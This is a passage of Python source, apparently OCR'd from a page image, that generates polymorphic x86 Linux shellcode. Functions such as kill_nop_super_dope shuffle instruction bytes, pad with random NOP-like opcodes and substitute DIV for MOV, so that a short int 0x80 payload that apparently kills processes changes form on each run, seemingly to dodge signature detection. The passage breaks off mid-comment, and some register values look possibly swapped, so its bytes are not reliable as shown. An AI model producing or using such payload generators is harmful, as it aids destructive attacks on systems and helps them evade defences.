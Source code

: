     setup_blk.extend(nop_blk)
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_super_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    nop_blk=["\\x90", "\\x6a\\x$$", "\\x42", "\\x4a", "\\x50", "\\x53", "\\x51", "\\x52"]

    shuffle(nop_blk)
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    to_add=nop_blk[0:n]
    setup_blk.extend(to_add)
    par = randint(1,255);


    shuffle(init_blk);
    shuffle(setup_blk);

    tmp="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";
    shellcode=tmp.replace("$$", str(par));
    return shellcode

def kill_div_for_mov(n, mov_to_cl):
    # DIV stores result in AX and if the divider is 1 byte long, the result is
    # in AL and reminder in AH
    # e.g.
    #   AL = 37
    #   AH = 0
    #   Our code here will calculate an initializer number for EAX this way:
    #       DL = random number between 1..FF
    #       EAX = 37 * DL
    # 
    # After the last div, n will be stored in AL and AH will be 0. 
    # The impact in terms of byte is +4 bytes every MOV substituted with the
    # DIV. The impact is +6 when the value must be in another register but EAX.
    #
    # This strategy is too expensive in terms of shellcode lenght and *MUST